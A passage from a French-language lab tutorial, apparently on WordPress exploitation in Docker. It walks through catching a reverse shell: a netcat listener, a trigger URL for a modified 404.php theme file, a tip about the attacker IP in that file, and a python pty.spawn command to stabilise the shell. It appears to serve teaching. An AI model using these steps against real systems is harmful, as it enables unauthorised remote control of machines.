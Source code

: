 Avec la commande : `nc -lvnp [port]` vous pouvez écouter sur le port spécifier et avoir un shell interactif !

- **"-l"** -> listen
- **"-p"** -> specifie local port
- **"-v"** -> verbose
- **"-n"** -> numéric-only IP addresses

> Pour mac remplacer simplement "nc" par "netcat"

Et voilà votre listener est prés à recevoir la connexion de la machine victime ! Vous pouvez laisser cette connexion de côté et revenir sur votre navigateur web.

Tout est enfin prêt nous pouvons obtenir notre **reverse shell** !
Rendez-vous sur l'adresse ci-dessous !

```
http://10.11.0.2:5500/wp-content/themes/twentyfifteen/404.php
```

 <img src="documentation/images/exploitation7.png" style="border-radius:5px; box-shadow: 5px 5px 5px #888888;">

Magie !! Nous avons bien reçu la connection de la machine et on a le contrôle sur cette dernière.

> Ceux pour qui cela n'a pas fonctionné et ont un message d'erreur "connexion refused" c'est un problème avec docker remplacer simplement dans le fichier php =="10.11.0.1"== par =="host.docker.internal"==

Vous pouvez essayer de taper les commandes de base :

- **ls** -> lister le contenue du répertoire courant
- **whoami** -> pour connaitre votre utilisateur
- **uname -a** -> pour connaitre le systeme sur lequel vous êtes

On a le controle de la machine !

> Le shell n'est pas très pratique non ?

C'est vrai que le shell n'est pas très beau et vous aurez l'occasion de voir qu'il est sujet au crash ce qui est très embettant car vous devez refaire toute les manipulations si cela devait arriver ! Il existe evidement plusieurs solution mais celle que je vais vous présentez est la plus simple ! On va utiliser python pour générer un shell plus beau et plus stable.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

<img src="documentation/images/exploitation8.png" style="border-radius:5px; box-shadow: 5px 5px 5px #888888;">
